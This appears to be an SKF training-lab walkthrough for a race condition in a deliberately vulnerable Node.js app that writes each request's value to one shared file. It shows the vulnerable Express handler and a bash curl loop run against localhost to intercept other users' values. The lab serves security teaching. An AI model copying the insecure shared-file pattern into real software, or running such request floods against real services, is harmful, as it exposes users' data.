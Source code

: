 # NodeJS - Race Condition File-Write

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine. After installation, we go to the folder of the lab we want to practice. "i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

Now that the app is running let's go hacking!

## Reconnaissance

#### Step1

We can download a file from the server by doing a GET request to the server.

![](../../.gitbook/assets/java/RaceCondition-File-Write/1.png)

Let's try:

![](../../.gitbook/assets/java/RaceCondition-File-Write/2.png)

Once we download the file we can see whatever we add to the URL is being written in a file called shared-file.

![](../../.gitbook/assets/java/RaceCondition-File-Write/3.png)

#### Step 2

As the application suggests, there is a Race condition vulnerability in this app, let's try to find it.

If we look at the code we see that the application gets the query parameter, writes to a file called shared-file.txt, then opens the file and send it back as a response.

```javascript
app.get("/:value", (req, res) => {
  fs.writeFileSync("shared-file.txt", req.params.value);
  fs.open("shared-file.txt", "r", (err, fd) => {
    let file = fs.readFileSync("shared-file.txt", "utf8");
    res.setHeader("Content-Type", "text/html", "charset=utf-8");
    res.setHeader(
      "Content-Disposition",
      "attachment; filename=shared-file.txt"
    );
    res.sendFile(__dirname + "/shared-file.txt");
  });
});
```

#### Step 3

How can we exploit this?

We have a very small window between the writing of the file:

```javascript
fs.writeFileSync("shared-file.txt", req.params.value);
```

and the response:

```javascript
fs.open("shared-file.txt", "r", (err, fd) => {
  let file = fs.readFileSync("shared-file.txt", "utf8");
  res.setHeader("Content-Type", "text/html", "charset=utf-8");
  res.setHeader("Content-Disposition", "attachment; filename=shared-file.txt");
  res.sendFile(__dirname + "/shared-file.txt");
});
```

Maybe if we have multiple users on this application at the same time we might be able to intercept someone else's query.

## Exploitation

In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```
#!/bin/bash

while true; do

	curl -i -s -k  -X $'GET' -H $'Host: localhost:5000' $'http://localhost:5000/111' | grep "111"

done
```

and in the meantime we will send a couple requests from Burp:

![](../../.gitbook/assets/java/RaceCondition-File-Write/4.png)

If we look in the logs we will see:

![](../../.gitbook/assets/java/RaceCondition-File-Write/5.png)

## Additional sources

https://wiki.owasp.org/index.php/Testing\_for\_Race\_Conditions\_(OWASP-AT-010)
